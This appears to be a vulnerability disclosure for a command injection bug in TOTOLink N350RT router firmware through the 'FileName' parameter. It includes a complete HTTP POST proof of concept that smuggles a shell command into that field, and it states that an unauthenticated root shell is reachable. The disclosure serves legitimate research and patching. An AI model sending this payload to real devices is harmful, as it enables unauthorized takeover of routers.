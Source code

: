 # TOTOLink N350RT V9.3.5u.6139_B20201216 Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ： https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/206/ids/36.html

### Product Information

TOTOLink N350RT V9.3.5u.6139_B20201216 router, the latest version of simulation overview：

![image-20220719210324254](img/image-20220719210324254.png)

## Vulnerability details

TOTOLINK N350RT (V9.3.5u.6139_B20201216) was found to contain a command insertion vulnerability in UploadFirmwareFile.This vulnerability allows an attacker to execute arbitrary commands through the "FileName" parameter.

![image-20220719211135564](img/image-20220719211135564.png)

`Var` is passed directly into the `dosystem` function.

![image-20220719205544791](img/image-20220719205544791.png)

The `dosystem` function is finally found to be implemented in this file by string matching.

![image-20220719205811209](img/image-20220719205811209.png)

Reverse analysis found that the function was called directly through the `system` function, which has a command injection vulnerability.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Length: 76
Origin: http://192.168.0.1
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Pragma: no-cache
Cache-Control: no-cache

{"FileName":";ps #","ContentLength":"1","topicurl":"UploadFirmwareFile"}
1
```

![image-20220719212510596](img/image-20220719212510596.png)

 The above figure shows the POC attack effect 

![image-20220720065911385](img/image-20220720065911385.png)

Finally, you can write exp to get a stable root shell without authorization.
